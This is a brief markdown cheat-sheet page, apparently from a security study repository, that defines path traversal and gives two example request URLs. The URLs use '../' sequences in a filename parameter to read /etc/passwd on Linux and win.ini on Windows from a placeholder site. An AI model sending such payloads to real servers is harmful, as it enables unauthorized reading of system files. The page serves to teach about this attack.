 # Path Traversal

Path Traversal allow a user to read arbitrary files via a path manipulation.

## Linux server:

`https://insecure-website.com/loadImage?filename=../../../etc/passwd`

## Windows server:

`https://insecure-website.com/loadImage?filename=..\..\..\windows\win.ini`

---

[**:arrow_right_hook: Back home**](/README.md)

